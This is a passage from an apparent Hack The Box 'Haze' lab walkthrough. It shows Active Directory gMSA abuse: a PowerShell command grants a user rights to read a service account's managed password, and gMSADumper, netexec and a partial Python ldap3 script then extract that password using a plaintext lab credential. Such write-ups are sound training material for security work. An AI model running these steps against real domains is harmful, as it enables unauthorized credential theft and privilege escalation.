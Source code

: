 Grants 'mark.adams' permission to retrieve the gMSA password for the 'Haze-IT-Backup$' account

```bash
Set-ADServiceAccount -Identity Haze-IT-Backup$ -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

![Screenshot 2025-03-31 at 8.33.26 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.33.26_PM.png)

Runs gMSADumper again with the same user after setting permissions to retrieve the now-accessible gMSA password

```bash
python3 gMSADumper.py -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb -l dc01.haze.htb
```

![Screenshot 2025-03-31 at 8.34.48 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.34.48_PM.png)

**2nd Option [For the same gMSA]:**

```bash
netexec ldap 10.10.11.61 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'  --gmsa
```

![Screenshot 2025-04-01 at 12.42.55 AM.png](/assets/Images/HTB_Haze/Screenshot_2025-04-01_at_12.42.55_AM.png)

If you don’t want to use that github script use this where you can know how it is working

```bash
from ldap3 import Server, Connection, ALL, MODIFY_REPLACE, SUBTREE

print("[><] Connecting to LDAP server...")

# LDAP connection details
domain = "haze.htb"
username = "haze\\mark.adams"
password = "Ld@p_Auth_Sp1unk@2k24"
dc_ip = "10.10.11.61"
target_dn = "CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb"
new_member = "CN=Mark Adams,CN=Users,DC=haze,DC=htb"

try:
    # Connect to the LDAP server
    server = Server(dc_ip, get_info=ALL)
    conn = Connection(server, user=username, password=password, auto_bind=True)

    print("[✔️] Connection established successfully!")
```